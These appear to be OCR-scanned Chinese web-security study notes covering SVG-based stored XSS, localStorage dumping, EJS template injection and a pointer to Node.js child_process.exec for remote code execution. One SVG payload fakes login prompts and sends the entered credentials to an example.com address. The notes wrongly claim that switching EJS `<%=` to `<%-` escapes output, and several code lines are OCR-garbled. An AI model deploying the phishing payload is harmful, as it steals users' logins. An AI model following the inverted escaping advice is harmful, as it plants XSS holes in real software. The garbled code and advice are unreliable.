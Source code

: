 # HTML5

## 新标签

- 像`<header>`,`<footer>`,`<nav>`,`<section>`,`<aside>`等等，使得阅读者更加容易去访问内容。
- HTML5中最酷的特性就是本地存储。
- HTML添加了基于SVG、Canvas、WebGL及CSS3的3D功能，可以在浏览器中呈现更好的视觉效果。

## svg

``` javascript
<?xml version="1.0" standalone="no"?>
<svg width="1008" height="100" version="1.1" xmlns="http://www.w3.org/2000/svg">
    <rect width-"100" height="100" style="fill:rgb(0,0,255);stroke-width:1;stroke:rgb(0,0,0)"/>
</svg>
```

通过在svg中潜入JS代码可以进行XSS攻击

``` javascript
<?xml version="1.0" standalone="no"?>
<svg version="1.1" xmlns="http:/www.w3.org/2000/svg">
<rect width="100" height="100"/>
<script>
    var isChromium = window. chrome,
    vendorName = window.navigator. vendor,
    isOpera = window.navigator.userAgent.indexOf("OPR") > -1
    if(isChromium !== null &amp;&amp; isChromium !== undefined &amp;&amp; vendorName === "Google Inc." &amp;&amp; isOpera = false)
    ar user = prompt("检测到您正在访问限制内容，请输入您的帐户以登陆帐号")；
    var pass = prompt("请输您的密码")；
    window.location = "http: /www.example.com?user=" + user + "&amp;pass=" + pass;
</script>
</svg>
```

如果把这个svg上传到服务器，就会形成存储型XSS攻击

## Web Storage

Web Storage包含两个部分, 一部分是 sessionStorage, 另一部分是 localStorage。

``` javascript
<svg versiona"1.1"xmlns"http:l/www,w3.orrz2000/syg">
    <rect width="100" height="100" />
    <script>
        if(localstorage. length)
        for(key in localstorage)
        if(localStorage.getItem(key))
        console.log(key);
        console.log(localStorage.getItem(key));
    </script>
</svg>
```

## CROS

通过HTTP头携带的信息，无CROS信息会被浏览器阻止掉。

## NodeJs的模版注入

### 模版引擎

模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易

### 模板注入

服务端接受用户的输入，并将其作为Web应用模板的一部分，即允许修改底层模板，在渲染过程中模板引擎执行用户插入的恶意内容。

这可以在wiki,WSYWIG或电子邮件模板中恶意使用。这种情况很少发生在无意中，所以它经常被误解为只是XSS。

以EJS为例子

``` html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Input Page</title>
</head>
<body>
    <h1>Enter your input</h1>
    <form action="/submit" method="POST">
        <input type="text" name="userInput">
        <button type="submit">Submit</button>
    </form>
</body>
</html>
```

display.ejs:

``` html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Display Page</title>
</head>
<body>
    <h1>Display User Input</h1>
    <p>User Input: <%= userInput %></p>
</body>
</html>
```

在 display.ejs 中，`<%= userInput %>` 直接输出了用户的输入，而没有进行转义。这可能导致用户输入 HTML 或 JavaScript 代码被执行。例如，用户可以输入以下内容来触发XSS攻击：

``` javascript
<p>User Input: <%- userInput %></p>
```

将 display.ejs 中的 `<%= userInput %>` 替换为 `<%- userInput %>` 或使用 `escape()` 方法，这会对特殊字符进行编码，从而防止脚本被执行。例如：

``` javascript
<p>User Input: <%- userInput %></p>
```

推测后端模版引擎的代码结构，然后精心构造JS代码

## RCE（远程代码执行）

在nodejs中，如果出现了XSS漏洞，容易出现RCE漏洞

获得shell执行，我们必须找到正确的函数来在Node/JavaScript中执行。

JavaScript中有一个特殊的对象，称为全局对象(GlobalObject),它及其所有属性都可以在程序的任何地方访问，即全局变量。

在浏览器JavaScript中，通常window是全局对象，而Node.js中的全局对象是global,所有全局变量（除了global本身以外）都是global对象的属性。

### shell执行

希望最终使用Require函数导入child_process.exec以运行操作系统命令。